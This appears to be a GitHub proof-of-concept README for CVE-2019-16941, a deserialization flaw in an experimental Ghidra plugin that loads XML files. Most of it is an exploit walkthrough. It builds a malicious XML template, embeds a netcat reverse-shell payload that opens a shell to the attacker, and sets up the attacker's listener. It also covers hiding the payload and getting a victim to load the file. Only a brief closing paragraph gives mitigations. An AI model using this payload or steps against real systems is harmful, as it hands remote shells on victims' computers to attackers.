




# CVE-2019-16941

<b>Proof-of-Concept:</b>

The vulnerability requires multiple and relatively improbable conditions in order to get triggered, fact that limits its exploitability. However, it takes little effort and understanding to prepare a payload given the fact that it can result into an arbitrary code execution.

<b>Creating the payload:</b> 

In order to create a payload for the target to run, a script incorporated in Ghidra can be used. To access it, click "Window" -> "Script Manager" and run "DumpFunctionPatternInfoScript.java" with default parameters on any binary that you have included into the Code Browser (but make sure the path to the folder where you want to save the output exists). This script produces an XML output file which will be loaded after into the vulnerable component.



This XML template can be used to inject the object which will be deserialized as Java code and executed silently, without alerting the user. Essentially, the malicious code will be inserted as an additional object to the end of the XML file, before the </java> closing tag. An example of object payload which represents a reverse shell is the following: 

```xml
<object class="java.lang.Runtime" method="getRuntime"> 
  <void method="exec"> 
    <string>nc <IP_to_connect> <PORT_to_connect> -c '/bin/bash'</string> 
  </void> 
</object>
```
The above will be deserialized into the following Java code:

```java
Process process = Runtime.getRuntime().exec("nc <IP_to_connect> <PORT_to_connect> -c '/bin/bash'")
```

Options are limitless in terms of payload since any Java code (even sophisticated malware) could be run this way, as long as it is correctly serialized into the XML format required by XMLDecoder. Care should be considered if the payload is inserted somewhere else inside the template (in order to be further hidden), as it might produce exceptions during deserialization, thus alerting the user.

<b>Execution:</b>

The process through which the payload gets executed makes use of the Ghidra GUI and cannot be automated. Instead, it requries human interaction from the victim, this representing another condition for the exploit to run.

For this exploit to work on the victim's computer, Ghidra needs to have the Experimental plugin "FunctionBitPatternsExplorer" enabled. This can be achieved by following the steps below:



Next, the user will be required to open the plugin from "Window" -> "Function Bit Patterns Explorer" and load the XML file using the "Read XML Files" functionality. This however, raises another challenge for the conditions section. The attacker requires a way in which to get the user to download the XML payload to his machine.

Back in the victim's perspective, the function will not let you see the XML files in the list so if your directory looks empty it is normal. If you start typing their name in the "File name" textbox they will show up, however it is important to not select any of them and leave the selector point to the directory as it will pick the files by itself.




Before the user clicks "OK", the attacker (joe) will need be running a listener on his remote host and wait for the connection. This can easily be achieved using:

```bash
$ nc -lvnp <listening_port>
```
After execution, the results can be seen below:



The vulnerability is highly unlikely to be exploitable on a large scale due to the multitude of the conditions implied. Until a new patch is provided, the best mitigating circumstances imply disabling (or not enabling in the first place) the experimental plugin affected. However, in case the plugin must be used, the XML files should originate from a trusted source.
